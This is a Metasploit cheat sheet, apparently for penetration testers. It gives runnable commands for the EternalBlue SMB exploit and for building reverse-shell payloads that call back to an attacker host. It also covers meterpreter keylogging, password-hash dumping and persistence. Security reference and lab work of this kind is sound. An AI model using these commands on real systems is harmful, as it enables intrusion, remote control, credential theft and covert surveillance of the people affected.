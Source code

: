 # Metasploit (msf) — Cheat Sheet

A tiny, easy-to-scan reference for common `msfconsole`, `msfvenom`, and basic `meterpreter` commands.

---

## Start
    msfconsole                # start interactive console
    msfconsole -r file.rc     # start and run resource script

## Search & Info
    search name:apache
    info exploit/windows/smb/ms17_010_eternalblue

## Use / Set / Show
    use exploit/windows/smb/ms17_010_eternalblue
    show options                # required options for current module
    set RHOSTS 192.168.1.10
    set RPORT 445
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 10.0.0.5
    set LPORT 4444

## Exploit / Run
    exploit                    # run exploit (foreground)
    run -j                     # run as job (background)
    exploit -z                 # run but don't interact with sessions

## Sessions
    sessions -l                # list sessions
    sessions -i 1              # interact with session 1
    sessions -u 1              # upgrade shell to meterpreter (if possible)
    sessions -k 1              # kill session 1
    background                 # background current session

## Handler (listener)
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 10.0.0.5
    set LPORT 4444
    exploit -j                 # start handler as job

## msfvenom — create payloads
    # Windows exe
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe

    # Linux reverse bash (raw)
    msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.5 LPORT=4444 -f raw > shell.sh

    # List payloads/encoders
    msfvenom -l payloads
    msfvenom -l encoders

## Meterpreter — common commands
    sysinfo                    # system info
    getuid                     # current user
    ps                         # list processes
    migrate <pid>              # migrate to process
    shell                      # drop to a system shell
    upload <local> <remote>    # upload file
    download <remote> <local>  # download file
    screenshot                 # take screenshot
    keyscan_start              # start keylogger
    keyscan_dump               # dump keystrokes
    keyscan_stop               # stop keylogger
    hashdump                   # dump password hashes (if privileges allow)
    run persistence            # try to create persistence

## Post-exploit utilities
    use post/windows/gather/enum_cached_domains
    use post/multi/recon/local_exploit_suggester

## Resource files (automation)
    # example.rc (save this file)
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 10.0.0.5
    set LPORT 4444
    exploit -j

    # run it:
    msfconsole -r example.rc

## Quick tips
    show payloads
    show encoders
    show targets
    setg VAR value   # set global variable across modules
    jobs             # list background jobs
    info <module>    # module documentation
    Always test in a lab or with authorization.

## Exit
    exit                      # leave msfconsole
